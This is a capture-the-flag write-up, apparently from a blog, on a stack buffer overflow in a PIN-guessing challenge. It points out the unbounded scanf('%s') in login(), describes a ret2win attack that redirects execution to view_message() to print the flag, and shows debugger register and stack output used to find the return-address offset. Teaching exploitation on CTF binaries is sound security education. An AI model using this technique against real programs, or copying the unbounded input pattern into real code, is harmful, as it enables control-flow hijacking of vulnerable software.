```c
	retrieve_pin();
	printf("\e[2J\e[H");
}

int main() {
	init();
	banner();
	login();
}

```
While it is quite a lot of code, most of it is redundant and a bit annoying (slow_type) and the only relevant function that exists is login(). 

From this code, it's simple. The contents of the pin is being read and copied over to a variable. We are then allowed to try to guess the pin and if we guess correctly, view_message() is called and the flag is printed out.

The vulnerability is pretty obvious in the scanf() function called in login. 

```c
char attempt[0x30];
...//ignore the code in between
scanf("%s", attempt);//does not check how much input we give it so we could give it like 1000 bytes of input and crash the program (segfault)
```
scanf() doesn't check how much input we give it so we could give input more than the size of attempt (0x30) and cause a buffer overflow. We can then utilise a ret2win attack to call the view_message() function via the buffer overflow. If you want to know how ret2win and buffer overflows work, it's explained here: https://rwandi-ctf.github.io/greyCTF2024/babygoods/

Anyway, just like the babygoods challenge, all we have to do is find the offset to rip register using rbp's offset+8 and call view_message()

```
 R10  0x0
*R11  0x202
 R12  0x0
*R13  0x7fffffffdd68 —▸ 0x7fffffffe115 ◂— 'SYSTEMD_EXEC_PID=2172'
*R14  0x403e18 (__do_global_dtors_aux_fini_array_entry) —▸ 0x401300 (__do_global_dtors_aux) ◂— endbr64 
*R15  0x7ffff7ffd000 (_rtld_global) —▸ 0x7ffff7ffe2d0 ◂— 0x0
*RBP  0x6161616161616169 ('iaaaaaaa')
*RSP  0x7fffffffdc38 ◂— 'jaaaaaaakaaaaaaalaaaaaaamaaa'
*RIP  0x401564 (login+197) ◂— ret 
─────────────────────────────────────────────────────────────────────────────────────────────────────[ DISASM / x86-64 / set emulate on ]─────────────────────────────────────────────────────────────────────────────────────────────────────
 ► 0x401564 <login+197>    ret    <0x616161616161616a>










──────────────────────────────────────────────────────────────────────────────────────────────────────────────────[ STACK ]───────────────────────────────────────────────────────────────────────────────────────────────────────────────────
00:0000│ rsp 0x7fffffffdc38 ◂— 'jaaaaaaakaaaaaaalaaaaaaamaaa'
01:0008│     0x7fffffffdc40 ◂— 'kaaaaaaalaaaaaaamaaa'
02:0010│     0x7fffffffdc48 ◂— 'laaaaaaamaaa'
03:0018│     0x7fffffffdc50 ◂— 0x6161616d /* 'maaa' */
```
